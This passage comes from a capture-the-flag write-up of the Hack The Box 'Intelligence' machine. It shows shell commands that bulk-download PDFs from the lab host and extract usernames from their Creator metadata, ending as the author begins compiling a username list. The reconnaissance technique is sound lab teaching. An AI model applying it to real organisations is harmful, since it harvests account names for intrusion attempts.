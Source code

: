 ```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# cat results.txt | awk '{ print $5 }' 
http://intelligence.htb/documents/2020-01-20-upload.pdf
http://intelligence.htb/documents/2020-01-23-upload.pdf
http://intelligence.htb/documents/2020-02-17-upload.pdf
http://intelligence.htb/documents/2020-01-01-upload.pdf
http://intelligence.htb/documents/2020-01-02-upload.pdf
http://intelligence.htb/documents/2020-02-28-upload.pdf
```

## Mass File Download

That looks better, now we can pipe that to wget to download all the files:

```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# cat results.txt | awk '{ print $5 }' | xargs wget
--2021-10-05 22:45:24--  http://intelligence.htb/documents/2020-01-20-upload.pdf
Resolving intelligence.htb (intelligence.htb)... 10.10.10.248
Connecting to intelligence.htb (intelligence.htb)|10.10.10.248|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11632 (11K) [application/pdf]
Saving to: ‘2020-01-20-upload.pdf’
2020-01-20-upload.pdf      100%[=================>]  11.36K  --.-KB/s    in 0.004s
2021-10-05 22:45:24 (2.71 MB/s) - ‘2020-01-20-upload.pdf’ saved [11632/11632]

--2021-10-05 22:45:24--  http://intelligence.htb/documents/2020-01-23-upload.pdf
Reusing existing connection to intelligence.htb:80.
HTTP request sent, awaiting response... 200 OK
Length: 11557 (11K) [application/pdf]
Saving to: ‘2020-01-23-upload.pdf’
2020-01-23-upload.pdf      100%[=================>]  11.29K  --.-KB/s    in 0.001s
2021-10-05 22:45:24 (8.10 MB/s) - ‘2020-01-23-upload.pdf’ saved [11557/11557]
<SNIP>
```

We have all the files, but there's too many to look through manually. Earlier with exiftool we saw there was a username in the Creator field, let's look at the files we downloaded using strings:

```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# strings *.pdf | grep Creator                                                                                           
/Creator (TeX)
/Creator (William.Lee)
/Creator (TeX)
/Creator (Scott.Scott)
/Creator (TeX)
<SNIP>
```

We can extract with strings, let's create a list of unique usernames and pass to a file:
